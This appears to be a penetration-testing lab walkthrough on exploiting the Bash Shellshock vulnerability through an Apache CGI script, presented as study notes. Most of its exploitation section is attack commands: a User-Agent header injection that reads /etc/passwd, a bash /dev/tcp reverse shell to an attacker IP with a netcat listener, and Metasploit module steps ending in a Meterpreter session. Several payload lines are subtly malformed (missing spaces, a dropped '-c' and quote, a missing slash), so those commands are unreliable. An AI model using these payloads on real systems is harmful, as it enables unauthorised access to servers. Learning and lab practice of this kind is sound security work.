 - Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allows an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability was discovered by Stephane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
- Bash is a \*Nix shell that is a part of the GNU project and is the default shell for most Linux distributions.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: `(){:;};`
- This vulnerability only affects Linux as Windows does not utilize Bash as it is not a \*Nix based operating system.
- In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

Exploitation
- In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
- In the context of an Apache web sever, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.
- The most effective method to exploit the shellshock vulnerability is to inject the characters in the user-agent HTTP header, and then specify the other commands that we would like to execute after those characters.
- Manual exploitation can be performed using a proxy tool, like Burp Suite, ZAP or Caido.

Practical Demonstration
- `ifconfig`
- `nmap -sV 10.10.10.3`
- The Nmap scan performed by us was to determine if there is an Apache web server being hosted on the target device.
- Our next step will be to manually verify that the web server is being hosted on the specified port, using a web browser.
- There is a timer available on the web page, which is not being rendered client-side, we can check the page source to verify that there is a publicly accessible CGI script, being stored at the root of the server, `10.10.10.3/gettime.cgi`, which is being executed to display the timer.
- The CGI script is passing commands to Bash to reflect the remaining time on the timer, and as such can be utilized as an input vector.
- We can check if the target system is vulnerable to the Shellshock vulnerability using a Nmap script called "http-shellshock".
- `nmap 10.10.10.3 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`
- The script argument "http-shellshock.uri" here is used to specify the endpoint to check for the vulnerability's presence.
- Manual Exploitation using Burp Suite
	- Exploitation here will be performed using Burp Suite, in which we can first intercept the request using the Interceptor module, with either the web browser provided by Burp Suite, or by setting up a proxy for our browser using FoxyProxy.
	- Once we have intercepted the request made by the browser to the `http://10.10.10.3/gettime.cgi` endpoint, we can send the request to the Repeater module.
	- In the Repeater module, we can remove the parameter present for the User-Agent request field, and replace it with the characters present in the vulnerability's payload, followed by the command we want to execute:
		- `(){:;}; echo; echo; /bin/bash -c 'cat etc/passwd'`
	- We can then send the request to the target server, and inspect the response to verify that the command we intended to execute has been executed.
	- Attempting to get a reverse shell to the target system:
		- First of all, we will set up a listener on our attacker machine using netcat.
			- `nc -nvlp 1234`
		- Then we will edit the parameter we set in the User-Agent request field, to execute an interactive bash shell and redirect its output to the attacker machine, the IP address we specify in the command here would be our LHOST's IP address. 
			- `(){:;}; echo; echo; /bin/bash - 'bash -i>&/dev/tcp/10.10.10.2/1234 0>&1`
		- Now, we have a reverse shell on the machine, present on our netcat listener.
- Automated Exploitation using Metasploit Framework
	- `service postgresql start && msfconsole`
	- `search shellshock`
	- `use auxiliary/scanner/http/apache_mod_cgi_bash_env`
	- `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
	- `options`
	- `set RHOSTS 10.10.10.3`
	- `set TARGETURI /gettime.cgi`
	- `exploit`
	- Meterpreter Session
		- `sysinfo`